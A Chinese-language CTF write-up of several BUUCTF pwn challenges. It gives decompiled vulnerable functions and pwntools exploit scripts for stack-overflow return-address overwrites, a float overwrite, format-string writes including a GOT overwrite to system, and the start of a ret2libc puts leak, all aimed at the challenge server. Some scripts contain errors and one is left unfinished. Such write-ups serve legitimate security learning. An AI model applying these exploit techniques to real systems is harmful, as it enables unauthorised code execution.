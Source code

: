 # buuctf-pwn




.. note::

   This .  ss





## warmup_csaw_2016



```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```



```python
from pwn import *

sh = remote('node4.buuoj.cn', 25891)
sh.sendline("A"*(0x40+8)+p64(0x40060D))
sh.interactive()
```





## ciscn_2019_n_1



+ amd64-64-little、NX
+ 考察点：
  + 十六进制的存储
  + ret2text覆盖返回地址



```c
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```





(一)栈溢出写入浮点数

浮点数的小数点表示法是直观的表现形式，实际在计算机中以十六进制（二进制）的指定形式表示。

+ 十进制浮点数 => 二进制形式 => 十六进制形式

由于涉及到判断是否相等的操作，那么11.28125的十六进制形式也会在程序中存储。

> ```c
> 11.28125 转换为二进制为 1011.01001
> 11.28125 在计算机内部储存为 0100 0001 0011 0100 1000 0000 0000 0000
> 即11.28125 ==> 0x41348000
> ```



（二）栈溢出写入返回地址

让gets函数直接返回到system(cat flag)代码处，跳过if条件判断。

```python
from pwn import *
r=remote("node4.buuoj.cn",28863)

ret_arr = 0x4006BE
float_num = 0x41348000 
payload1 = 'a'*(0x30 - 0x4) + p64(float_num) 
payload2 = 'a'*(0x30 + 8) + p64(ret_arr)
p.sendline(payload1)
p.interactive()
```





## pwn1_sctf_2016 [源码没有读懂]





fgets看似限制了输入字符数为32，但后面存在字符替换操作。每单个字符`I`都会被替换为三个字符`You` 。而变量s的大小为60，可以输入20个`I`，替换后就得到了60个字符，利用栈溢出覆盖ebp和返回地址为get_flag函数。





```c
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/01117078187747439192eab955af9598.png)



```
from pwn import *
r=remote("node4.buuoj.cn",25145)
#0x3c=60 
#every "I" will be replaced into "you", need 60/3=20 I
r.sendline("I"*20+"B"*4+p32(0x08048F0D))
r.interactive()
```







## jarvisoj_level0





```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function();
}
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
int callsystem()
{
  return system("/bin/sh");
}
```





```
from pwn import *
r=remote("node4.buuoj.cn",25007)
backdoor=0x400596
r.sendline("A"*(0x80+8)+p64(backdoor))
r.interactive()
```



## [第五空间2019 决赛]PWN5



+ Canary
+ i386-32-little
+ NX



num_addr=0x804C044 	#4字节

p32(num_addr)+"%10$n"

输入字符串的内容所在地址，相对格式化字符串所在地址的偏移为第10个参数



思路：

+ 格式化字符串漏洞任意地址写入，覆盖read的返回地址为system执行地址
+ 修改num的大小



**【疑问】为什么要写入四字节的数据**

![img](https://img-blog.csdnimg.cn/1bb32ec175a6481fb888fe6ebae7e299.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATF9feQ==,size_19,color_FFFFFF,t_70,g_se,x_16)

```
#coding=utf-8
from pwn import *

p = remote('node4.buuoj.cn',28526)
addr = 0x0804C044
#地址，也就相当于可打印字符串，共16byte
payload = p32(addr)+p32(addr+1)+p32(addr+2)+p32(addr+3)
#开始将前面输出的字符个数输入到地址之中，hhn是单字节输入，其偏移为10
#%10$hhn就相当于读取栈偏移为10处的数据当做地址，然后将前面的字符数写入到地址之中
payload += "%10$hhn%11$hhn%12$hhn%13$hhn"
p.sendline(payload)
# 0x10101010  4 * len(p32()) = 0x10
p.sendline(str(0x10101010))
p.interactive()
```



+ fmtstr：任意地址写入，修改num的值

```
from pwn import *
sh = remote('node4.buuoj.cn',28526)
unk_804C044 = 0x804C044
payload = fmtstr_payload(10, {unk_804C044: 0x1})
sh.sendline(payload)
sh.sendline(str(0x1))
sh.interactive()
```



```
#coding=utf-8
from pwn import *

p = remote('node4.buuoj.cn',28526)
elf = ELF("5thspace2019pwn5")
atoi_got = elf.got["atoi"]
system_plt = elf.plt["system"]
payload = fmtstr_payload(10,{atoi_got:system_plt})
p.sendline(payload)
p.sendline("/bin/sh\x00")  #!
p.interactive()
```





## 

思路：利用gets栈溢出泄露puts函数内存地址，从而确定libc版本，得到system("/bin/sh")



为了绕过while循环退出条件`v0>=strlen(s)` ，可以构造"\0"字符截断，作为溢出padding的一部分。

![img](https://img-blog.csdnimg.cn/20210322184607848.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTU1NjQ0MQ==,size_16,color_FFFFFF,t_70)



puts@plt(puts@got) -> main 

总结做题中的错误：

+ 忘记64位需要堆栈平衡，需要使用gadget来构造参数
+ 没有看懂程序执行逻辑，没有看到while循环中的语句，如果不截断字符将会一直进行循环。

```
from pwn import *

p = remote('node4.buuoj.cn',28526)
elf = ELF("5thspace2019pwn5")
puts_plt=elf.plt["puts"]
puts_got=elf.got["puts"]
main_addr=elf.sym["main"]
p.sendline("1")
p.recvuntil("\n")
p.sendline("A"*(0x50+8)+p64(puts_plt)+p64(puts_got)+p64(main_addr))




```













































